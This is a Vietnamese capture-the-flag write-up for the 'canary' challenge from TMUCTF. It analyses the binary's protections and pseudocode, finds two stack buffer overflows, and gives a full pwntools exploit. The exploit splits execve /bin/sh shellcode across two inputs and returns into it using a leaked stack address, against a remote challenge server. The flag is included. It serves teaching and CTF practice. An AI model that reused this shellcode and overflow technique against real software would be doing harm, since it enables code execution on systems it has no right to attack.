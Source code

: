 # CANARY
# Reverse file
file 64-bit, dynamically linked, và không có stripped.
```sh
zir@ubuntu:~/Desktop$ file canary
canary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1bf7fbedab28e21b8519ef1d1629ddd9a7056ef8, for GNU/Linux 3.2.0, not stripped

```
Checksec file: mình thấy rằng 
* NX disabled - được quyền thực thi trên stack, có thể chạy shellcode trên stack.
* No canary found - chương trình không tạo ra 1 chuỗi ngẫu nhiên để ngăn việc buffer overflow.
```sh
zir@ubuntu:~/Desktop$ checksec canary
[*] '/home/zir/Desktop/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

Đưa file canary vào IDA để xem pseudocode, nhận thấy luồng chương trình sẽ có 3 hàm quan trọng: 
* main
* compare
* printresult.

```sh
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Main func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  tmulogo();
  puts(
    "Welcome to our String Comparison System!\n"
    "Enter two strings to be compared with each other. \n"
    "We will tell you the comparison result.\n");
  compare();
  return 0;
}
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Compare func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int compare()
{
  char s2[15]; // [rsp+2h] [rbp-2Eh] BYREF
  char v2[27]; // [rsp+11h] [rbp-1Fh] BYREF
  int v3; // [rsp+2Ch] [rbp-4h]

  strcpy(v2, "noshellcode");
  puts("Enter first string (up to 15 chars): ");
  readline(&v2[12], 0x1BuLL);
  puts("Enter second string (up to 15 chars): ");
  readline(s2, 0xFuLL);
  puts("Note that we have a canary between these two strings and you cannot inject any shellcode!\n");
  printf("Do not you believe? Here is the canary address: %p\n", v2);
  v3 = strcmp(&v2[12], s2);
  if ( !strcmp(v2, "noshellcode") )
    return printresult(v3);
  else
    return puts("You overwrite the canary :|\nNo results for you. Bye Bye.\n");
}

-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Printresult func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __fastcall printresult(int a1)
{
  char s[12]; // [rsp+14h] [rbp-Ch] BYREF

  puts(
    "===================================================================\n"
    "Thank you for using our system.\n"
    "If you don't mind, leave your phone number for us in order to inform you about our new productions later!\n"
    "\n"
    "Enter your phone number: ");
  fgets(s, 32, stdin);
  puts("\nThis is the comparison result: ");
  if ( a1 )
    return puts("---> * The strings are not equal! *");
  else
    return puts("---> * The strings are equal! *");
}
```

Chương trình sẽ cho mình nhập khoảng 3 lần:
* Trong hàm compare:
    * Copy chuỗi "noshellcode" vào biến v2.
    * Lần 1: Nhập 27 kí tự, bắt đầu từ &v2[12]  ----------> BufferOverflow
    * Lần 2: Nhập 15 byte vào biến s2.
    * In ra địa chỉ bắt đầu của biến v2.
    * So sánh 2 giá trị vừa nhập vào s2 và &v2[12] với nhau và đưa giá trị tối đa 4 byte vào trong biến v3 (kiểu int), đóng vai trò như 1 canary.
    * So sánh biến v2 với chuỗi "noshellcode", nếu bằng nhau sẽ gọi hàm printresult(v3), chuẩn bị cho lần nhập lần 3.
* Trong hàm printresult:
    * Lần 3: Nhập 32 kí tự vào S[12] -------------> BufferOverflow
    * In 1 số chuỗi ra.

# Solution

Chương trình cho mình 3 lần nhập, 1 địa chỉ trên stack, NX disabled, No Canary found. Mình sẽ sử dụng shellcode cho bài này. Đây là sơ đồ mình đã debug và ghi nhận địa chỉ của từng lần nhập, mình sẽ sắp xếp theo thứ tự địa chỉ tăng dần.

* Lần 3: 0x7ffce8205554 - 0x7ffce8205574 (32)
* Lần 2: 0x7ffce8205572 - 0x7ffce8205581 (15)
* Lần 1: 0x7ffce820558d - 0x7ffce82055a8 (27)

```sh

0x7ffce8205554 --> 0x7ffce8205572 --> 0x7ffce8205581 --> 0x7ffce820558d --> 0x7ffce82055a8

|-------------------------------------------------- v2[0-11] ----------- v3---------------->

```

Trong sơ đồ trên có 2 chướng ngại:
* v2[0-11] chứa chuỗi "noshellcode"
* v3 chứa giá trị từ hàm strcmp(&v2[12],s2) tối đa 4 byte.

Mình sẽ nhập shellcode chia ra làm 2 phần, phần đầu shellcode sẽ nhập vào lần 2, và phần sau sẽ nhập vào lần 1. Lần nhập thứ 3 mình sẽ RET về địa chỉ chứa shellcode.

Sử dụng 1 số lệnh nhảy để bỏ qua n byte bằng lệnh '\xeb\xn' để bỏ qua các chướng ngại.

## File exploit.py
```python
from pwn import * 
#s = process("./canary")
s = remote("185.97.117.19", 7030)
pause()

sc1 = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\xeb\x0c"
sc2 = "\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xeb\x04aaaa\xb0\x3b\x48\x31\xF6\x0f\x05\x00"



s.sendline(sc2)
s.sendline(sc1)
s.recvuntil("canary address: ")

stack_addr = int(s.recv(14),16) - 0xf 

payload = "c"*(0xc+8) + p64(stack_addr)
s.sendline(payload)
s.interactive()

#sc = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

# 0xc-0x1b = 0xf 
# 0xc la offset tu dia chi leak den PHAN SAU cua SHELLCODE
# 0x1b la offset tu PHANSAU cua SHELLCODE den PHANDAU cua SHELLCODE


```

## Flag >> `TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}`

